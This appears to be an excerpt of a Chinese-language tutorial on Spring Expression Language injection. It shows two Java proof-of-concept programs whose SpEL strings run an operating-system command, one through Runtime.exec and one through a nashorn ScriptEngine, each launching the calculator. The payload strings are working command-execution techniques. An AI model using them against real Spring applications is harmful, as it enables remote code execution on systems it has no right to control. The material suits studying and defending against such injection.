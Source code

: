 ## Runtime

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpelVulTest {
    public static void main(String[] args) {
        String cmdStr = "T(java.lang.Runtime).getRuntime().exec('calc')";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```

什么？还有高手！拉满了真的拉满了，Runtime 居然只需要直接用 T 表达式就可以命令执行？！拉满了！  
![image.png](assets/1698895942-4d6d4eb8f1e5b1df393f6e4668144491.png)

## ScriptEngine

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpelVulTest {
    public static void main(String[] args) {
        String cmdStr = "T(javax.script.ScriptEngineManager).getEngineByName(\"nashorn\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}
```
